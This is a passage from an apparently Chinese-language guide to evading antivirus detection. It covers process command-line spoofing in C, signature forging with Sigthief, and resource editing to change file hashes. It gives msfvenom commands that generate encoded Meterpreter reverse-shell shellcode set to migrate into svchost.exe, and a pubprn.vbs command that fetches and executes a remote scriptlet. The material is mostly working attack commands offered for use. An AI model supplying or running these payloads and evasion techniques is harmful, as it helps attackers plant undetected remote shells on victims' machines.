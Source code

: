 ```c
pi.hProcess, 
(char *)pebLocal.ProcessParameters + offsetof(RTL_USER_PROCESS_PARAMETERS, CommandLine.Length), 
(void*)&newUnicodeLen, 
4
);
if (success == FALSE) {
printf("[!] Error: Could not call WriteProcessMemory to update commandline arg length\n");
return 1;
}

// Resume thread execution*/
ResumeThread(pi.hThread);
}
```

### 签名伪造
Sigthief

### 修改资源文件
![](https://i.loli.net/2021/01/18/CrhNTg5xqXeysbM.jpg)

修改图标等资源文件的操作会改变文件的MD5,在某些情况下可以免杀一部分杀软,如360...
Restorator
Resource_Hacker

### MSF
```bash
1 、 msfvenom -p windows/meterpreter/reverse_http-e x86/shikata_ga_nai -i 15 -b '\x00' PrependMigrate=true PrependMigrateProc=svchost.exe LHOST=[your remote ip addres] LPORT=[listeningport] -f c >hacker.c

2 、 msfvenom -p windows/meterpreter/reverse_tcp-e x86/shikata_ga_nai -i 15 -b '\x00' PrependMigrate=true PrependMigrateProc=svchost.exe LHOST=[your remote ip addres]LPORT=[listening port] -f c >hacker.c

3 、 msfvenom -p windows/meterpreter/reverse_tcp_rc4 -e x86/shikata_ga_nai -i 15 -b '\x00' PrependMigrate=true PrependMigrateProc=svchost.exe LHOST=[your remote ip addres]LPORT=[listening port] -f c >hacker.c
```
`-e x86/shikata_ga_nai -i 15`是用`-e x86/shikata_ga_nai`编码15次，而`PrependMigrate=true PrependMigrateProc=svchost.exe`使这个程序默认会迁移到svchost.exe进程

另外使用 revers_tcp_rc4 可以对回话进行加密，对免杀有一定帮助

### pubprn.vbs*
```bash
cscript C:\Windows\System32\Printing_Admin_Scripts\zh-CN\pubprn.vbs 127.0.0.1 script:https://gist.githubusercontent.com/api0cradle/fb164762143b1ff4042d9c662171a568/raw/709aff66095b7f60e5d6f456a5e42021a95ca802/test.sct
```


[go/shellcode_inject/virtual>>]: generate